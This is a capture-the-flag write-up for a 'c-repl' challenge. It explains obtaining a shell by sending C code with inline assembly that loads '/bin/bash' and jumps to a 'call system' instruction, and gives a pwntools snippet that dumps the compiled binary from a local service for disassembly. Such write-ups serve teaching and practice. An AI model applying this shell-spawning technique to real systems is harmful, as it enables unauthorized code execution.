


# c-repl solution

Solving this problem should be an iterative process of the player writing C code, compiling it, and then throwing it into a disassembler to get the right addresses. 

There are likely many ways to solve this challenge, but I just wrote some inline assembly that loaded `"/bin/bash"` into `%rdi`, then `jmp`'ed to the `call system` instruction. 

The C code that is sent is:
```c
#define BINSH "/bin/bash" // so the data is not stored on the stack
printf("doing %s\n", BINSH); // so BINSH doesn't get optimized away
__asm__(
    "movq $0x00402016, %rdi;" // move the address of "/bin/bash" into rdi
    "movq $0x04011ea, %rax;" // prepare to jump to `call system`
    "jmp %rax;"); // do the jump
```

The offsets were found using Binary Ninja: 




The player can get the compiled ELF file by reading the data from stdout using a snippet of code like:
```python
from pwn import *

p = remote("127.0.0.1",1337)
p.recvuntil("C> ")
p.sendline('printf("your code here!\\n");')
data = bytes(
    [int(x, 16) for x in p.recvline().decode().split(": [")[1].strip()[:-1].split(", ")]
)

with open("elf.bin", "wb") as fp:
    fp.write(data) # write compiled binary to elf.bin locally to inspect with binary ninja
```

The [solve.py](./solve.py) script automates the "exploitation". 